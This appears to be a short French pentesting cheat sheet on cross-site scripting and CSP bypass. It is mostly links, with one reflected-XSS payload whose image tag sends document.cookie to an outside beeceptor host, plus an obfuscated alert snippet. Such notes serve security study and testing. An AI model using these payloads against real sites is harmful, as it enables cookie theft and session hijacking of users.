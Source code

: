 ### Filters bypass

 - https://javascript.info/script-async-defer
 - https://github.com/payloadbox/xss-payload-list
 - https://github.com/cure53/HTTPLeaks/tree/main
 - https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-script-code
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#filter-bypass-and-exotic-payloads

`Protection`: HTML-encode les entrées utilisateurs, CSP

`Reflected XSS`

Report link:

```html
https://vulnerable.org?parameter=<img src="//night.free.beeceptor.com?data=".concat(document.cookie)>
```

[Dom Based XSS](https://blog.cyxo.re/pwnme-2022/pimp-my-bicycle/)

-> appel ou accès aux éléments du DOM (ex document.getElementByID)

![console](./images/console.png)

-> accès aux erreurs

### CSP

[CSP Bypass](https://csplite.com/csp320/)

- https://content-security-policy.com/
- https://csp-evaluator.withgoogle.com/
- https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection
- https://www.cobalt.io/blog/csp-and-bypasses
- https://chromestatus.com/feature/5735596811091968

rappel

```js
alert(window["docu"+"ment"]["title"])
```

Analyser les tags CSP (conserver journal,désactiver cache)
